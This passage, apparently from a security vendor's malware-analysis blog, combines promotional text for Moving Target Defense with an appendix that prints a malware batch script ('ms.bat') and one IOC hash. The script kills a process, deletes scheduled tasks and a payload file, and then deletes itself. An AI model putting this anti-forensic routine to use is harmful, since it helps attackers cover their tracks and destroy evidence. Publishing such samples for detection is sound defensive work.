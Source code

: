 However, a unique technology named Moving Target Defense (MTD) is purpose-built to defend against advanced, runtime attacks against Windows and Linux without affecting system performance or generating false alerts. It proactively stops supply chain attacks, code injection, defense evasion, remote code execution, privilege escalation, credential theft, and ransomware. And it does so without needing signatures or behavior models. How? By randomizing trusted runtime application code so no two machines look the same, and even a single system changes over time. While trusted applications can navigate the modified runtime environment, MTD blocks any software component oblivious to the traps left behind. And it does this without any noticeable impact on system performance. To learn more about this revolutionary technology, read the free white paper—The Ultimate Ransomware Strategy: Zero Trust + Moving Target Defense.

Appendix
ms.bat




echo off
SETLOCAL
set id=%1
set pat=%2
set t_sk=%3
set t_sk_self=%4
set extra_lld=%5
::echo %id%
::echo %pat%
schtasks /delete /tn %t_sk_self% /f
taskkill /F /PID %id% /T
timeout /t 2
taskkill /PID %id% /T /F
timeout /t 2
schtasks /delete /tn %t_sk% /f
timeout /t 2
schtasks /delete /tn %t_sk_self% /f
timeout /t 2
schtasks /delete /tn %t_sk_self% /f
timeout /t 2
del %pat%
:: del batch file self
timeout /t 2
del "%~f0" & EXIT
 




Indicators of Compromise (IOCs)
Blog Sample




486f772d81a3b90ba76617fd5f49d9ca99dac1051a9918222cfa25117888a1d5




Docs

